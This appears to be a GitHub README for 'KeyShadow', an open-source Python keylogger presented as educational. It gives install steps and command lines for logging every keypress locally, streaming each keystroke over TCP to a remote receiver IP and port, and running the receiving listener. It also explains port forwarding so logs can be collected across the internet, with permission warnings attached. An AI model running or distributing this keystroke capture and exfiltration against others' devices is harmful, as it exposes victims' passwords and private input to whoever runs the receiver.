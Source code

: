 # KeyShadow

**An Educational, Open-Source, Cross-Platform Keylogger**

```
 _  __           _____ _           _               
| |/ /___ _   _ /  ___| |__   __ _| |_ ___  _ __   
| ' // _ \ | | |\___ \| '_ \ / _` | __/ _ \| '__|  
| . \  __/ |_| | ___) | | | | (_| | || (_) | |     
|_|\_\___|\__, | |____/|_| |_|\__,_|\__\___/|_|     
         |___/                                  
```

## ⚠️ WARNING

> **KeyShadow is for EDUCATIONAL and ETHICAL use only.**
>
> - Use ONLY on your own device, or with clear written PERMISSION.
> - Unauthorized use is likely ILLEGAL and UNETHICAL.
> - Authors and contributors assume NO responsibility for misuse.

---

## Features

- **Local logging** to file (`local` mode)
- **Network sending** to another device (`send` mode)
- **Network receiving** logs (`receive` mode)
- **Customizable**: IPs, ports, log file path via CLI
- **Works on**: Kali Linux, Ubuntu, other Linux distros; limited support on Termux
- **Python 3.7+ required**
- **No API keys or cloud dependencies**
- **Simple, plain-text log files**
- **Open source (MIT License)**

---

## Installation

1. **Install Python 3.7+**
2. **Install dependencies:**
    ```bash
    pip install pynput
    ```
3. **Download `keyshadow.py` to your system**

---

## Usage

### **Help Menu**
```bash
python3 keyshadow.py --help
```

### **Modes**

#### 1. Local Logging (Log to File)

```bash
python3 keyshadow.py --mode local --logfile mylogs.txt
```
- Logs all keypresses to `mylogs.txt`.
- Press `ESC` to stop logging.

#### 2. Send Mode (Send Logs to Remote Device)

```bash
python3 keyshadow.py --mode send --remote-ip <RECEIVER_IP> --remote-port 8080
```
- Sends every keystroke to a receiver at `<RECEIVER_IP>:8080` AND saves locally.
- You must have a receiver running (see below).

#### 3. Receive Mode (Listen for Logs)

```bash
python3 keyshadow.py --mode receive --listen-port 8080 --logfile received.txt
```
- Listens for logs on port 8080 and writes them to `received.txt`.
- Shows log lines as they arrive.

---

## Example: Logging Across the Network

**PC 1 (Receiver):**
```bash
python3 keyshadow.py --mode receive --listen-port 8080 --logfile logs_from_laptop.txt
```

**PC 2 (Sender):**
```bash
python3 keyshadow.py --mode send --remote-ip <PC1_IP> --remote-port 8080
```

- Both devices must be on the same local network.
- Use your PC's local IP (e.g., `192.168.1.5`) for `<PC1_IP>`.

---

## Remote Logging (Outside Local Network)

- **Port Forwarding:**  
  Open (forward) port 8080 on your router to the receiver's local IP.
- **Firewall:**  
  Allow inbound connections on port 8080.
- **Security:**  
  Be aware this exposes your device to the internet—only use on trusted networks, and for educational testing.
- **Never** use on devices/networks without explicit, legal permission.

---

## OS Compatibility

| OS / Platform | Supported? | Notes                                                |
|---------------|------------|------------------------------------------------------|
| Kali Linux    | ✅         | Full support                                         |
| Ubuntu        | ✅         | Full support                                         |
| Other Linux   | ✅         | Full support                                         |
| Termux        | ⚠️        | Only within Termux shell (no global key capture)     |
| Windows/macOS | ❌        | Not tested; may require additional tweaks            |

---

## How It Works

- **local**: Records every keypress to a local file.
- **send**: Sends each keypress to a given IP:port, as well as logging locally.
- **receive**: Starts a simple TCP server to receive log entries and write them to a file.

---

## Limitations

- **No encryption** of logs or network data (for educational simplicity)
- **No cloud or email integration**
- **Key capture limited to session/scope allowed by OS**
- **Not intended for stealth or malicious use**
- **Not tested on Windows/macOS**

---

## Authors


- **Lokesh Kumar**


---

## License

[MIT License](LICENSE)

---

## Contributing

PRs and suggestions welcome for further educational features.

---

## Disclaimer

This software is provided “as is” for ethical and educational use.  
**You are responsible for your actions.**
